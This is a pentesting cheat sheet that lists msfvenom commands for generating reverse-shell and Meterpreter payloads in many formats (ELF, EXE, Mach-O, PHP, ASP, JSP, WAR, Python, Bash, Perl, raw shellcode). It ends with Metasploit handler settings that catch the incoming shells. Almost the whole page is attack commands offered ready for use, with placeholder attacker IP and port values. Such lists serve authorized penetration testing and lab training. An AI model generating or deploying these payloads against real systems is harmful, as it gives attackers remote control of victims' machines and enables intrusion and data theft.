 ```yaml
---
description: >-
  A collection of Metasploit payloads using msfvenom, collected from different
  sources on the internet.
---
```


# Metasploit Payloads

### List payloads

```text
msfvenom -l
```

### Linux

```text
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
```

### Windows

```text
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
```

### Mac

```text
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho
```

### PHP

```text
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\\n' > shell.php && pbpaste >> shell.php
```

### ASP

```text
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
```

### JSP

```text
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
```

### WAR

```text
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
```

### Python

```text
msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py
```

### Bash

```text
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh
```

### Perl

```text
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl
```

### Linux Based Shellcode

```text
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```

### Windows Based Shellcode

```text
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```

### Mac Based Shellcode

```text
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```

### Handlers

```text
use exploit/multi/handler
set PAYLOAD <Payload name>
set LHOST <LHOST value>
set LPORT <LPORT value>
set ExitOnSession false
exploit -j -z
```

Once the required values are completed the following command will execute your handler

```text
msfconsole -L -r
```

